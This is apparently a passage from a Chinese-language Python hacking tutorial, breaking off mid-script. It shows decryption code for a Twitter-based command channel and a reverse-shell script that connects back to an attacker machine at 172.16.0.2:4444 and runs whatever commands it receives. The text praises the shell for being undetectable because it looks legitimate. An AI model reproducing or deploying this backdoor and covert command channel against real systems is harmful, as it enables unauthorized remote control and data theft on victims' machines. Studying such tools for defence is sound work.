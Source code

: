 因为每一步都需要两条 tweet，所以我在每次命令检查之间留出了一个小时的间隔，但您自己很容易改变这一点：

```
time.sleep(3600)
```

对于解码，导入`RC4`库，将您的 key tweet 设置为 key，将重新组装的 base64 作为响应：

```
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
```

使用密钥设置新的`RC4`代码，解码 base64 中的数据，并使用密钥解密：

```
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```

# 创建一个简单的 Netcat 外壳

下面我们要创建的脚本利用原始套接字从网络中过滤数据。此 shell 的总体思想是通过 Netcat（或其他程序）会话在受损机器和您自己的机器之间创建连接，并以这种方式向机器发送命令。

这个 Python 脚本的美妙之处在于它的不可检测性，因为它看起来是一个完全合法的脚本。

## 怎么做…

这是将通过 Netcat 建立连接并读取输入的脚本：

```
import socket
import subprocess
import sys
import time

HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on

def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go

def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False

def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
```